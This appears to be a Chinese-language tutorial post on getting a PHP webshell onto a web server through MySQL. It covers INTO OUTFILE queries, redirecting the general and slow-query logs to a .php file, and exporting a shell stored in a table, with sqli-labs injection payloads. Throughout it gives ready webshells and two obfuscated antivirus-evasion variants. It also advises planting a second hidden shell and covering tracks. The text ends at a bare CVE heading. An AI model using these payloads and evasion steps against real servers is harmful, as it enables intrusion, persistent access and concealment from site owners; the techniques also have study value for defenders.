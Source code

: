 ## mysql如何向日志文件写webshell进行利用

> 编写于：2024-2-8



**Webshell说明：**

Webshell是一种恶意代码，通常以脚本文件的形式存在，可以在受攻击的 Web 服务器上执行命令、操纵文件系统、窃取敏感信息等。攻击者可以通过各种方式将 Webshell 注入到目标服务器上，以获取非法访问权限。



**MySQL 日志文件说明：**

MySQL 的日志文件是用于记录数据库服务器活动和事件的重要组成部分，这些日志文件对于故障排除、性能优化和安全审计非常有用。默认情况下，MySQL 的日志文件通常位于服务器的特定目录中。。在默认情况下，MySQL 会生成以下几种类型的日志文件：

1. 查询日志（Query Log）：记录所有发往 MySQL 服务器的查询语句。可以通过配置 MySQL 的选项来启用或禁用查询日志。攻击者可能会尝试通过注入恶意查询语句来在日志中插入 Webshell。
2. 错误日志（Error Log）：记录 MySQL 服务器遇到的错误和异常情况。错误日志对于故障排除和安全审计非常有用。攻击者可能会尝试通过利用服务器错误来触发异常行为，并在错误日志中留下 Webshell。
3. 慢查询日志（Slow Query Log）：记录执行时间超过预定义阈值的查询语句。慢查询日志用于性能优化和查询分析。攻击者可能会尝试通过构造复杂的查询语句来使其被记录在慢查询日志中，并在其中插入 Webshell。







### 使用outfile方法：

```
select '<?php @eval($_POST[1]);?>' into outfile 'D:/shell.php'
```

**成功向mysql写入webshell条件（至少）**

1. 数据库的当前用户为ROOT或拥有FILE权限；（FILE权限指的是对服务器主机上文件的访问） 
2. 知道网站目录的绝对路径； 
3. PHP的GPC参数为off状态； 
4. MySQL中的secure_file_priv参数不能为NULL状态。



**secure_file_priv**

secure-file-priv是一个系统变量，对于文件读/写功能进行限制。

secure_file_priv是用来限制load dumpfile、into outfile、load_file()函数在哪个目录下拥有上传和读取文件的权限。如下关于secure_file_priv的配置介绍

1. secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出，意味着通过outfile方法写入WebShell是无法成功的，但是通过导出日志的方法是可以的。
2. 当secure_file_priv的值为/tmp/（具体文件路径） ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
3. 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

注：5.5.53本身及之后的版本默认值为NULL，之前的版本无内容。

三种方法查看当前secure-file-priv的值：

select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like “secure_file_priv”;
修改：

通过修改my.ini文件，添加：secure-file-priv=
启动项添加参数：mysqld.exe --secure-file-priv=



Outfile方法其实是Mysql提供的一个用来写入文件的函数，当我们可以控制写入的文件内容以及文件的保存路径时，我们就可以达到传入WebShell的目的。当我们可以使用union查询时，我们构造一个如下语句，就可以达到效果：

```
Union select “这里是WebShell” into outfile “Web目录”；
```

当我们无法使用union时，还有一些其他方法也可以实现（利用分隔符写入）：

```
?id=1 INTO OUTFILE '物理路径' lines terminatedby （这里是WebShell）#
?id=1 INTO OUTFILE '物理路径' fields terminatedby （这里是WebShell）# 
?id=1 INTO OUTFILE'物理路径'columns terminatedby （这里是WebShell）# 
?id=1 INTO OUTFILE '物理路径' lines startingby （这里是WebShell）#
```







### 先看看sqli-labs第七关的笔记，也就是使用outfile方法：

```
?id=1'))UNION SELECT 1,2,3 into outfile "D:\\uuu.txt"--+
```

刚开始这儿一直不行，硬盘上出现不了uuu.txt，原因是自己的mysql设置问题。

在MySQL中，outfile可以用来输出一个文件。但是想要执行这样的操作，就必须要开启文件写入的权限。

我们可以执行：`show variables like '%secure%';`来查看：发现`secure_file_priv`的 value 值是 NULL，那么这代表此时文件写入的权限是关闭的，那我们需要写入输出文件的保存路径来开启它。

首先，我们来到MySQL的根目录下，会看到一个my.ini的文件。

打开my.ini文件，添加`secure_file_priv`以及他所对应的参数：（我写的是`secure_file_priv='D://'`）

```
在linux下可在/etc/my.cnf的[mysqld]里面，添加secure_file_priv=
```

注意：*路径的斜杠需要采用//需要多加一个斜杠来转义字符，其次，因为C盘的权限问题，请不要把路径写到C盘上。*【开始我没有注意这一点导致sql语句一直报错，很头疼】

之后我们重启 MySQL服务：

最后重复刚才的 sql 语句`show variables like '%secure%';` 来查看是否修改成功：发现已经出现路径了。

那这个时候，我们就可以执行`outfile`来输出文件到 D盘的任意位置了。

```
my.ini文件是MySQL数据库服务器和客户端程序的配置文件，它可以用于设置MySQL的基本运行参数、安全性、缓存、日志记录等方面的参数。
```

> 在sql漏洞中可以使用file系列函数
>
> load_file()  ：读取指定文件
> into outfile ：将查询的数据写入文件中
> into dumpfile：将查询的数据写入文件中(只能写入一行数据)
>
> ```
> secure_file_prive=null //限制mysqld 不允许导入导出
> secure_file_priv=/path/  //限制mysqld的导入导出只能发生在默认的/path/目录下
> secure_file_priv=’’  //不对mysqld 的导入 导出做限制
> ```
>
> outfile函数可以导出多行，而dumpfile只能导出一行数据
> outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式

这时候我们可以通过``

```
联合：
?id=-1')) union select version(),database(),user() into outfile "D:\\uuu.txt" --+

非联合：
?id=1')) into outfile "D:\\uuu.txt" fields terminated by '' --+
```

来使得所需信息输出到 uuu.txt

**注意：储存的文件路径uuu.txt也要本身没有这个文件才可以。**

**注意：闭合条件是'))，不然也不行**







### 基于log日志写入法(全局日志)

所以`mysql`在 my.ini 中设置了导出文件的路径，无法再使用`select …… into outfile`来写入一句话

此时在 mysql 文件夹下的 my.ini 中可以设置到处路径，但是在拿 shell 时，不可能去修改配置文件。

但是可以通过修改 mysql 的 log 文件来获取 webshell

1. 我们首先进入SQL环境，执行以下SQL语句：

```sql
show variables like "%general%";
```

2. 如果 `general_log`是OFF，则需要执行`set GLOBAL general_log='ON';`（开启日志功能）

3. 接下来设置日志存储路径`SET GLOBAL general_log_file='C:/phpStudy/www/xxx.php'`

4. 最后执行sql语句,写入日志文件`select "<?php system($_GET[a]);?>"`

```
免杀shell,eval方式
mysql> select "<?php $sl = create_function('', @$_REQUEST['klion']);$sl();?>";

别人的免杀shell,assert&base64encode方式    
mysql> SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['klion']));?>";     
```

5. 处理后事：

   干完活儿以后务必记得把配置恢复原状（不然,目标站如果访问量比较大,日志文件可能会瞬间暴增连shell时会巨卡），拿到shell记得马上再传一个shell（[放的隐蔽点），然后再通过新的shell把最开始这个shell删掉，谨慎一点，起码不会让你的shell掉的那么快。

   `set global general_log = off;`







### 基于log日志写入法(慢查询日志)

1. 查看慢查询日志开启情况`show variables like '%slow_query_log%';`
2. 开启慢查询日志`set global slow_query_log=1;`
3. 修改日志文件存储的绝对路径`set global slow_query_log_file='D:/shell.php';`
4. 向日志文件中写入shell`select '<?php @eval($_POST[1]);?>' or sleep(11);`







### 将shell写入表中+outfile

**利用条件：**

1. root权限

2. 网站的绝对路径且具有写入权限

执行如下语句写入shell：

1. 将shell插入一个表中`insert into sxss(comment) values ('<?php @eval($_POST[1]);?>');`

2. 查询该数据表，将结果导出文件`select comment from sxss into outfile 'D:/shell.php';`







###  CVE-2018-19968文件包含

**受影响的phpMyAdmin版本：4.8.0 ~ 4.8.3**

